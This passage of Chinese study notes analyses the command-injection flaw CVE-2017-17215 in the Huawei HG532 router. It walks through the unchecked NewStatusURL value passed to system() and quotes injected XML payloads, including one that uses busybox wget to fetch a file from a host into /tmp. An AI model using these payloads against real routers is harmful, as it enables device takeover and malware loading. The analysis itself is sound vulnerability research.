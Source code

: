 <img src="./img/snprintf.png">

- 程序通过ATP_XML_GetChildNodeByName函数获取xml中的NewStatusURL节点，并且未经过检查就直接与upg -g -U %s -t '1 Firmware Upgrade Image' -c upnp -r %s -d -拼接使用system函数进行执行
    ```
    snprintf(a0,0x400,"upg -g -U %s -t '1 Firmware Upgrade Image' -c upnp -r %s -d -",a3)

    其中a0是拷贝的源字符串的地址，同时a0又是system调用的第一个参数，所以最后会执行`system(a0)`，以达到控制该路由器的目的

    实现了"任意OS命令注入，a0可控"的漏洞
    ```
- 漏洞的原理
  - 首先在**NewStatusURL**输入单引号将前面的字符串闭合，然后再注入相应的执行命令即可
  - 如需要执行ls命令，则需要做的就是构造`<NewStatusURL>';ls;</NewStatusURL>`节点即可。该节点字符串与`upg -g -U %s -t '1 Firmware Upgrade Image' -c upnp -r %s -d -`拼接得到`upg -g -U %s -t '1 Firmware Upgrade Image' -c upnp -r ';ls; -d -`，然后执行system调用，实现注入
  - 例如在本文的exp中，执行的是wget指令
    ```
    根据上面payload图，newstatusurl这个节点值为  <NewStatusURL>;/bin/busybox wget -g 192.168.83.19 -l /tmp/1 -r /1;</NewStatusURL>
    ```

#### 参考资料

- [【我的第一个现实漏洞分析】 CVE-2017-17215 华为智能路由器HG532 漏洞分析笔记](https://www.jianshu.com/p/c6d238d4508b)
- [通过CVE-2017-17215学习路由器漏洞分析，从入坑到放弃](https://www.freebuf.com/vuls/160040.html)
- [CVE-2017-17215-HG532命令注入漏洞分析](https://xz.aliyun.com/t/4819)

### BooFuzz


## Reference

- https://github.com/jtpereyda/boofuzz
- 配置桥接网络的资料
  - https://blog.csdn.net/u010817321/article/details/52117344